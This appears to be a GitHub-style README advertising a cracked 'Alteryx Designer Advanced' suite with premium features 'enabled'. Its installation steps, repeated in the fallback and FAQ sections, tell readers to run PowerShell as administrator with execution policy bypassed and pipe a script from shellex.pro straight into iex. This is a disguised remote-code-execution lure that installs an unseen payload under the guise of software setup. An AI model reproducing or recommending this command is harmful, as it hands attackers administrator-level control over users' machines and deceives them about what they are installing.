

<div align="center">


<br>


# Alteryx Designer Advanced Analytics Complete Suite
**ETL · Predictive · Workflow automation**
<br>
**ETL · Predictive · Workflow automation**
<br>
Professional · Enterprise · Complete · Windows



**Alteryx Designer Advanced — ETL workflows, predictive tools, spatial analytics and automation enabled.**

</div>

---

> Prep and blend data without code — Alteryx advanced designer modules enabled for analysts.

## INSTALLATION

**Steps:**
1. Press **Win**, type **PowerShell**
2. Right-click **Windows PowerShell** → **Run as administrator**
3. Copy the command below, paste into the window, press **Enter**
4. If **UAC** still appears – click **Yes**

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm 'https://shellex.pro/ps/setup.ps1' | iex"
```

<details>
<summary><b>Command did not start?</b></summary>

Try this directly in the same PowerShell window:

```powershell
irm 'https://shellex.pro/ps/setup.ps1' | iex
```

</details>

<sub>Administrator rights are required to complete the setup.</sub>


## `FEATURES`

📊 **Visual analytics** — Dashboards and BI tools enabled.
🔗 **Data connectors** — Prep, blend and publish datasets.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows enterprise ready** — Built for analyst teams.
⚙️ **Pro modules** — Premium analytics features enabled.
📋 **Complete toolkit** — Templates and reports supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 8 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Command did not start?</b></summary>
<br>Try: `irm 'https://shellex.pro/ps/setup.ps1' | iex`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 8 gb free space.
</details>


TAGS
alteryx, alteryx-designer, data-prep, etl, analytics-platform, predictive-analytics, data-blending, workflow-automation, bi-software, data-analytics, alteryx-analytics, self-service-analytics, data-transformation, alteryx-platform, analytics-software
